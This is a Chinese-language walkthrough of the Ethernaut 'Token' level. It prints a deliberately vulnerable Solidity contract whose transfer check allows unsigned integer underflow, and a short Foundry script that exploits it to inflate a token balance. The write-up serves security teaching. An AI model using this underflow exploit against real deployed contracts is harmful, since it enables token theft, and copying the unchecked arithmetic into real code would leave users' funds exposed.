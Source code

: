 # Level 5 - Token

## 題目
[Token](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)

### 通關條件
你一開始會被給 20 個代幣。如果你找到方法增加你手中代幣的數量，你就可以通過這一關，當然代幣數量越多越好。
### 提示
- 什麽是 odometer?
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
## 解題
odometer 是指汽車的里程表，達到最大值後再+1便會歸零，這就是常見的 overflow 的問題。  
這題要考的就是 overflow， overflow 簡單來說就是數字的儲存終有極限，當超過儲存極限的時候，沒有相對應的措施；就會導致程式出錯。  
所以了解每個變數型態可以表示的範圍是很重要的！！！  


---
這題的目標是增加自己的代幣（`balances[msg.sender]`）
從合約中可以找到變更自己代幣量的只有 12 行的 `transfer(address _to, uint256 _value)`，它會將你手中的代幣減少，並且增加在你要轉去的地址中
```solidity
function transfer(address _to, uint256 _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```
我們只要透過這個 function，透過我們輸入的參數造成 overflow，就可以讓手中的代幣不減反增。題目一開始說我們手中的代幣有 20 個，儲存代幣的變數 `balances` 的型態是 `uint256` 
```solidity
mapping(address => uint256) balances;
```
`uint256` 的範圍是 $0$ 到 $2^{256}-1$，也就是說我們只要轉出 21 個代幣，就會讓我們的代幣持有量變成 $2^{256}-1$，達到代幣增加的效果。攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/05_Token.sol";

contract ExploitScript is Script {
    Token level05 = Token(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        level05.transfer(your_challenge_address, 21);

        vm.stopBroadcast();
    }
}
```
Overflow 是寫程式時常會需要去考慮到的問題。雖然現在很多框架都會自動幫忙處理，但還是要了解這些觀念，避免程式發生預期外的錯誤，關於 overflow 也可以參考：
- [[中文] WTF Solidity 合约安全: S05. 整型溢出](https://github.com/AmazingAng/WTF-Solidity/tree/main/S05_Overflow)
- [[中文] 溢位攻擊 | 觀點解析](https://medium.com/@communitybca/%E6%BA%A2%E4%BD%8D%E6%94%BB%E6%93%8A-%E8%A7%80%E9%BB%9E%E8%A7%A3%E6%9E%90-b32544747646)
- [[EN] Integer overflow and underflow in solidity](https://metaschool.so/articles/integer-overflow-and-underflow-in-solidity/)